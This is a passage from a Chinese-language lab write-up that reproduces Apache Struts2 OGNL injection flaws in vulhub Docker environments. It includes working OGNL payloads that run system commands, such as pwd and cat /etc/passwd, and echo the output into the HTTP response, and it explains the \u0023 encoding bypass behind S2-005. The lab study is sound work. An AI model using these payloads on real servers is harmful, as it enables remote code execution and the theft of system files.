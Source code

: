    ~~~~
   
   #f.getWriter().println(new java.lang.String(#e)),
   
   #f.getWriter().flush(),
   
   #f.getWriter().close()
   
   }
   ~~~~

   ![image-20220329232113613](E:\学习\picture\image-20220329232113613.png)

5. #### 执行命令（带参数的命令：`new java.lang.String[]{"cat","/etc/passwd"}`）：

   ~~~~
   %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
   ~~~~

   ![image-20220329231930856](E:\学习\picture\image-20220329231930856.png)

### 关闭docker环境

~~~
命令：docker-compose down -v
~~~

## S2-005复现

~~~text
s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开
~~~

**影响版本：Struts 2.0.0-2.1.8.1**

### 漏洞搭建

~~~~
https://github.com/vulhub/vulhub/tree/master/struts2/s2-005
~~~~

运行以下命令启动环境

```
docker-compose build
docker-compose up -d
```

搭建成功：

![image-20220330205122843](E:\学习\picture\image-20220330205122843.png)
